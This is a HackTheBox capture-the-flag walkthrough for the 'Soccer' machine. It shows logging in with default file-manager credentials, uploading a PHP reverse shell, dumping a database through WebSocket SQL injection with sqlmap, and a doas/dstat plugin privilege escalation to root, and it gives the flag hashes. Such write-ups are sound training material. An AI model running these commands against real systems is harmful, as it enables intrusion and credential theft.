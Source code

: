 ### 2024-04-19

[Soccer | HackTheBox](https://app.hackthebox.com/machines/Soccer)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/e3962273-55a8-424a-846b-3a22b1de7da8)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/01eb3854-8a08-432b-b96f-da07e468877c)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/97837b89-a423-4bf7-9ff8-15e8b0a58b31)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/fd003883-4abd-46de-a45b-09e9a883063b)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/283a5fb5-3bb3-4f5a-985e-552b181e405c)

http://soccer.htb/tiny/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c0abbdcc-bf62-49d9-a520-da2678d5a3e5)

https://tinyfilemanager.github.io/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a12b5c36-a21c-4c65-b469-26df88fa9ba3)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d1a03218-7c1c-4ba1-b4bb-1646b2310101)

**admin:admin@123**

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/4b715836-d82c-4ea5-9dbf-95ab9dbadfa6)

http://soccer.htb/tiny/tinyfilemanager.php?p=

**user:12345**

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/576dfd30-5d9a-4fd6-9a52-35651a165ffb)

http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/f115d39f-b164-4da2-9b39-abb2d80fb875)

http://soccer.htb/tiny/tinyfilemanager.php?p=tiny&view=tinyfilemanager.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/09f48646-41e5-45a4-888e-31ab38062dfe)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/e6bf6ffd-563e-4d6c-aeaa-6383c9f3f05c)

```
searchsploit 'tiny file manager'
```

```
searchsploit -m 50828
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/100bfbb8-c7b7-4450-829c-3431857e1a6d)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/7f70c8e8-edd9-4b4e-ab03-6221c00dc211)

http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&view=php-reverse-shell.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/110f739d-2947-462e-b5fc-bff884d68fda)

http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&view=aaa.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1bdec955-f60c-487d-823a-4f400fa50828)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ea2ebdbf-737d-4505-974c-c4909041f14e)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ffc19f49-68d8-4a86-bc62-9afd0fa00c5c)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9fbdcf57-f2c8-406b-b8f5-5adead166536)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/e5c6b863-d516-4703-9fa5-3eb272101cb5)

```
cat /etc/nginx/sites-available/soc-player.htb
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1884319a-769b-473e-9056-813d1536a295)

```
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```

```
echo '10.129.208.236 soc-player.soccer.htb' |sudo tee -a /etc/hosts
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/e04dc9c1-8b47-4e5b-a923-2ab19548393d)

http://soc-player.soccer.htb/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ed5df05c-fc0a-4e36-b5c8-41994eebedd7)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/69a6d501-9e50-4dbf-8796-651e67dd55e2)

```
<script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
    </script>
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d68b82e0-979b-484b-99ed-cbd2d678a71c)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/3c6c7d55-5507-48b6-9d87-2dc86a701745)

```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch
```

```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump --batch
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a404bba5-6b7a-4291-9bf8-055645a35b0a)

*player:PlayerOftheMatch2022*

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/43c89e0b-a928-4feb-bd78-addc9feac537)

```
f72899c03e0af8fb3262c4bdb3e99832
```

**SetUID bit**

```
find / -perm -4000 2>/dev/null
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/69e4f477-9a4c-43d9-90fa-faa75251cd34)

/usr/local/bin/doas

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b56baa50-2099-44f1-94da-2c860d6eb635)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/27ba1f52-a3ab-47cc-b3e7-c95aed0effc6)

```
find / -name dstat 2>/dev/null
```

/usr/local/share/dstat

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ffe1ec0d-6bd4-4dc3-b0a2-95d82b4e1ef6)

```
man dstat
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/09eece78-70c7-462e-b7ad-26b55135c82d)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d055e24e-d577-47d9-8b25-dab304656f7e)


https://gtfobins.github.io/gtfobins/dstat/

```
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b484872d-b4a3-4bf2-b2ef-c4edbabfe0a3)

```
doas /usr/bin/dstat --pwn
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/f18371c6-8066-4d34-8d12-d493dca0f8e9)

```
8e5ff553e7daa34162a79823d05ce903
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/bd2613a7-56bb-4dd0-84f0-62e9cbd894a9)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/0aeefdec-8617-4f54-a6f9-428af55bb1f1)
